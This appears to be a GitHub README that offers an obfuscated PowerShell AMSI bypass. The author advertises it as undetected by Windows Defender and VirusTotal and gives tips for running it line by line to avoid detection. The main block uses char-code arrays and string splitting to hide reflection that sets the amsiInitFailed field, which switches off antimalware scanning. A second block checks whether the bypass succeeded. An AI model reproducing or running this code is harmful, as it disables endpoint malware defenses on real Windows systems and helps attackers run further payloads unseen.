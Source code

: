 
![Screenshot 2025-06-10 111757](https://github.com/user-attachments/assets/7d7063a6-bb2f-4bd5-a1a4-e83f5ececa8a)

# Bypass ASMI!

This is an advanced ASMI bypass that currently isn't picked up by Windows defender or any of the anti virus softwares on VirusTotal.

You should run this script line by line, don't just execute it .\pwn.ps1 it might get detected if you do that.

But just running it line by line is undetected currently.

It's bypassed ASMI on prolabs from HackTheBox and even on my personal computer.

```powershell
$e=[Ref].('Assem'+'bly').GetType(([string]::Join('', [char[]](83,121,115,116,101,109,46,77,97,110,97,103,101,109,101,110,116,46,65,117,116,111,109,97,116,105,111,110,46,65,109,115,105,85,116,105,108,115))))
$n='Non'+'Public'
$s='Static'
$f=$e.GetField(([string]::Join('', [char[]](97,109,115,105,73,110,105,116,70,97,105,108,101,100))),($n+','+$s))
$t=[type[]]@([object],[bool])
$m=$f.GetType().GetMethod('Set'+'Value', $t)
$m.Invoke($f, @($null, $true))
```

# Check if it Worked!

This should return True if it worked and it'll return False if the bypass failed.

```powershell
$e=[Ref].Assembly.GetType(([string]::Join('',[char[]](83,121,115,116,101,109,46,77,97,110,97,103,101,109,101,110,116,46,65,117,116,111,109,97,116,105,111,110,46,65,109,115,105,85,116,105,108,115))));
$f=$e.GetField(([string]::Join('',[char[]](97,109,115,105,73,110,105,116,70,97,105,108,101,100))),"NonPublic,Static");
$f.GetValue($null)
```
